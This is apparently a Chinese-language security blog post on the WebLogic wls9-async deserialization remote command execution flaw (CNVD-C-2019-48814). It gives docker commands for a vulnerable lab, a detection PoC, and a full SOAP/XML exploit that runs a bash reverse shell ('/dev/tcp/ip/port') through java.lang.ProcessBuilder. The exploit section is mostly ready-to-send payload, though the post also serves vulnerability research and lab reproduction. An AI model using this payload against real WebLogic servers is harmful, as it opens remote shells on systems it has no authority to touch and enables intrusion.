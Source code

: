 ```yaml
---
layout: post
title:  " weblogic 远程命令执行漏洞分析 (CNVD-C-2019-48814)"
date:   2019-7-30 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞研究 ALL
tags: 安全开发 漏洞浮现 ALL
describe: weblogic 远程命令执行漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## weblogic 远程命令执行漏洞  (CNVD-C-2019-48814）
### 漏洞概述
该漏洞存在于 wls9-async 组件，这个组件主要作用是异步通讯服务，攻击者可以向 /_async/AsyncResponseService 路径下传入构造好的恶意 xml 格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，从而可以 getshell。
### 漏洞环境搭建
docker 快速启动：
```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```
访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814)

### 漏洞复现
#### Poc：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```
如果 res.status_code == 202 则可以判断存在漏洞

#### Exp：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
